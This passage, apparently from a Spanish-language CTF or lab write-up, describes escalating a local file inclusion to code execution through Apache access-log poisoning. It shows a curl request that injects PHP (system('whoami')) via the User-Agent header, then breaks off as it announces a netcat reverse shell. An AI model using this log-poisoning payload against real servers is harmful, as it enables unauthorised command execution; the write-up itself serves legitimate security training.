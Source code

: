 
![](/assets/img/Anexos/Pasted%20image%2020250402104756.png)

Hay LFI. Entonces para pasar LFI a **RCE** podemos probar con **LOG Poisioning**.

## Explotación 

Accedemos a _/var/log/apache2/access.log_

![](/assets/img/Anexos/Pasted%20image%2020250402143300.png)

Hacemos la siguiente petición para probar que cuando recarguemos la página se interprete el código php:

```shell
❯ curl -s -X GET 'http://g00dj0b.reverse.dl' -H "User-Agent:<?php system('whoami'); ?>"
```

![](/assets/img/Anexos/Pasted%20image%2020250402143346.png)

Nos muestra el usuario por lo que es vulnerable a LOG Poisioning. 

Ahora ejecutamos el siguiente comando para obtener una bash por `nc`:
